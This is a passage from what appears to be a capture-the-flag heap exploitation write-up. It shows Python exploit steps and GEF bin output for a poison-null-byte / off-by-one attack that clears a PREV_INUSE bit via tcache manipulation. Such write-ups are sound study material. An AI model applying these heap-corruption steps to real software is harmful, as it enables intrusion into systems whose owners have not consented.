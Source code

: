 ```py
# we need to delete chunk_1, this is because we will be using this chunk to
#  to trigger the off-by-null (poison-null-byte) attack

delete_heap(1)

# chunk_0 should be freed so it can be consolidated with chunk_2 later
delete_heap(0)
```

Running the exploit:-

```asm
ef➤  heap bins
──────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcdc40 ────────────────────────────────────────────────────
Tcachebins[idx=5, size=0x70] count=1  ←  Chunk(addr=0x555555757770, size=0x70, flags=) 
───────────────────────────────────────────────────── Fastbins for arena 0x7ffff7dcdc40 ─────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
──────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x555555757250, bk=0x555555757250
 →   Chunk(addr=0x555555757260, size=0x510, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
───────────────────────────────────────────────────── Small Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────────────────────────────── Large Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  
```

Now, as you can see the chunk `0x555555757260` belongs to the `unsorted` bin and the chunk `0x555555757770` belongs to the `tcache`'s `bin[5]` being the size `0x70`. Now, the tricky part is that, whenever the chunk is `free`'d, the program `memsets` the `free`'d chunk with the `0xda` byte by byte, overwriting whatever was written in the chunk so far.

```py
# when we free a chunk, programs writes 0xDA to the whole chunk
# so, we need to zero out some parts of the chunk_1. Therefore,
# we are allocating/freeing the chunk_1 multiple times with different sizes
# interestingly, it always have chunk size of 0x71, but the program only cares
# about the input size
for i in range(9):
    # heap_list[0] => chunk_1 (0x71)
    # this causes strcpy writes null byte at the end of buffer.
    # when i == 0, off-by-one happens and turn size of chunk_2 from
    # 0x601 t0 0x600. Therefore, we clear PREV_IN_USE bit.
    new_heap(0x68 - i, 'b' * (0x68 - i))
    # we need to free the chunk, so malloc returns it on the next new_heap call
    delete_heap(0)
```
So, what we do here is, since the `free`'d chunk's contents is being overwritten by the `0xda` byte by byte, to mitigate this in such a way that the `chunk_1`, the chunk which went into the `tcache`, so here doing constant allocation of the size ranging from the `0x5f` to `0x68`, all of them will land into the `tcache` bin[5] since the rounding size for the chunks allocated in that range will have the `0x70` size and will be in the `bin[5]`.
